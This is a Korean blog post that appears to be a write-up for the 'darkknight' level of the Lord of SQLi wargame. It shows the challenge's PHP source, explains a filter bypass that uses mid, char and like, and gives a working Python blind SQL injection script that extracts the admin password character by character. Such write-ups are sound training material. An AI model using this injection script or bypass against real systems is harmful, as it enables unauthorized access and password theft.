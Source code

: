 ```yaml
---
layout: post
title: ! "[LOS] darknight"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darknight
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/darkknight.png)

`query : select id from prob_darkknight where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

darknight 문제는 substr, ascii가 필터링 된다.
기존 코드를 좀 수정해서

1. substr -> mid
2. ascii -> char

이렇게 바꿔주었다.

admin을 char함수로 표현하려면 `char(97,100,109,105,110)` 이 된다.

1. left : 문자의 왼쪽을 기준으로 일정 갯수를 가져온다.
2. mid : 문자의 지정한 시작 위치를 기준으로 일정 갯수를 가져온다.
3. right : 문자의 오른쪽을 기준으로 일정 갯수를 가져온다.

처음에 코드가 잘 안돌아갔는데 기존 코드는 string.ascii_letters를 이용해서 `for a in alpha` 이런식으로 돌게 했는데
이번 코드는 48부터 128까지 범위를 주고 `char(str(a))` 로 바꿔주었다.
출력을 할 때도 파이썬의 chr함수를 사용해 `chr(a)` 이렇게 출력해주었다.

### 코드
```php
from requests import get
import string
from time import sleep

url="https://los.eagle-jump.org/darkknight_~~~.php"
cookies = dict(PHPSESSID="세션 아이디")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1 || length(pw) like "+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1 || id like char(97,100,109,105,110) %26%26 mid(pw,"+str(i)+",1) like char("+str(a)+")"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/darkknight_result.png)

결과대로 `1C62BA6F` 를 `?pw=1C62BA6F` 를 입력했는데 안돼서 뭐지..? 했는데
소문자로 바꿔서 입력하니 풀렸다.

![]({{ site.baseurl }}/assets/posts/los/darkknight_clear.png)
